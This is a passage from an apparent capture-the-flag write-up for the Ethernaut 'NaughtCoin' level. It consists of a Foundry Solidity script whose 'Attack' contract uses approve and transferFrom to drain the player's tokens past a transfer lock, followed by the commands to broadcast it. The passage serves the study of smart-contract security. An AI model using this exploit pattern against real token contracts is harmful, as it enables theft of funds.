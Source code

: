 **Level15Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level15.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Attack {
    NaughtCoin public instance =
        NaughtCoin(0x4850cbcf544F3055b6269C54C5e9bD1Ec0905EE2);
    function exploit(address _player) public {
        require(instance.allowance(_player, address(this))    > 0, "Not approved");
        require(
            instance.transferFrom(
                _player,
                address(this),
                instance.balanceOf(_player)
            ),
            "Transfer to attacker failed"
        );
    }
}

contract Level15Sol is Script {
    NaughtCoin public instance =
        NaughtCoin(0x4850cbcf544F3055b6269C54C5e9bD1Ec0905EE2);
    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        address player = address(instance.player());
        uint playerBalance = instance.balanceOf(player);
        Attack attack = new Attack();
        instance.approve(address(attack), playerBalance); //approving attack contract and balance
        attack.exploit(player);

        vm.stopBroadcast();
    }
}

```

**To run the script**

```
$ source .env
$ forge script script/Level15Solution.s.sol:Level15Sol --rpc-url $RPC_URL --broadcast
```

## Preservation
